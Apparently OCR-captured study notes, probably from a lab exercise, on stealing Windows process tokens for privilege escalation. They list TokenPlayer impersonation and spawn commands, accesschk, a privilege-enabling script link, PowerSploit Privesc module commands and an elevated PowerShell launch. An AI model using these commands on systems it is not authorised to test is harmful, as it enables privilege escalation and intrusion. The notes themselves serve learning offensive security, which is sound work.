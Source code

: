 # STEALING TOKENS
```
TokenPlayer-v0.8.exe --impersonate --pid 4536 --spawn
```

needs sedebugprivilege!
Admin in high integrity (UAC Bypass)

----
accesschk.exe -p -f -v 3356
---
https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1

POWERSPLOIT

```powershell
git clone https://github.com/PowerShellMafia/PowerSploit.git
cd .\PowerSploit\Privesc\
import-module .\Privesc.psd1
get-command -module Privesc
Get-ProcessTokenPrivilege
```

login as student
powershell
Start-Process -FilePath "powershell.exe" -Verb RunAs